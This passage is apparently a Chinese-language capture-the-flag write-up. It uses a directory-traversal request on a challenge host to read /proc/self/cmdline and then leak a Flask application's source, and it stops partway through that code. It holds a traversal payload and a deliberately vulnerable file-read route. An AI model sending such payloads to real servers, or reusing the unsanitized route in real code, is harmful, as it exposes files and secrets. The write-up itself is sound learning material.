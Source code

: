 首先查看源码：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202305250159353.png" alt="image-20230525015929206" style="zoom:33%;" />

发现一个读文件的路由，根据数据包可知，这是python编写的

> 在Linux系统中，**/proc/self/cmdline**是一个特殊的文件，它**提供了当前进程的命令行参数信息。**
>
> 在Linux中，/proc是一个虚拟文件系统，提供了访问系统内核和进程信息的接口。**/proc/self是一个符号链接，它指向当前正在执行的进程的目录**。因此，**/proc/self/cmdline实际上指向了当前进程的命令行参数信息。**
>

我们读取 `/proc/self/cmdline` 获取命令行信息：

```
http://neepusec.fun:28912/r3aDF1le?filename=../../../proc/self/cmdline
```

![image-20230525020423295](https://raw.githubusercontent.com/leekosss/photoBed/master/202305250204341.png)

返回了一个文件路径，有一个`CuteCirno.py`文件

当我们访问一个不存在的路径时

![image-20230525020627713](https://s2.loli.net/2023/05/25/HD4cxYlkut65Fd8.png)

我们发现报错了，于是读取这两个文件：

CuteCirno.py

```python
from flask import Flask, request, session, render_template, render_template_string
import os, base64
from NeepuFile import neepu_files

CuteCirno = Flask(__name__,
                  static_url_path='/static',
                  static_folder='static'
                  )

CuteCirno.config['SECRET_KEY'] = str(base64.b64encode(os.urandom(30)).decode()) + "*NeepuCTF*"


@CuteCirno.route('/')
def welcome():
    session['admin'] = 0
    return render_template('welcome.html')


@CuteCirno.route('/Cirno')
def show():
    return render_template('CleverCirno.html')


@CuteCirno.route('/r3aDF1le')
def file_read():
    filename = "static/text/" + request.args.get('filename', 'comment.txt')
    start = request.args.get('start', "0")
    end = request.args.get('end', "0")
    return neepu_files(filename, start, end)


@CuteCirno.route('/genius')
def calculate():
    if session.get('admin') == 1:
        print(session.get('admin'))
        answer = request.args.get('answer')
        if answer is not None:
```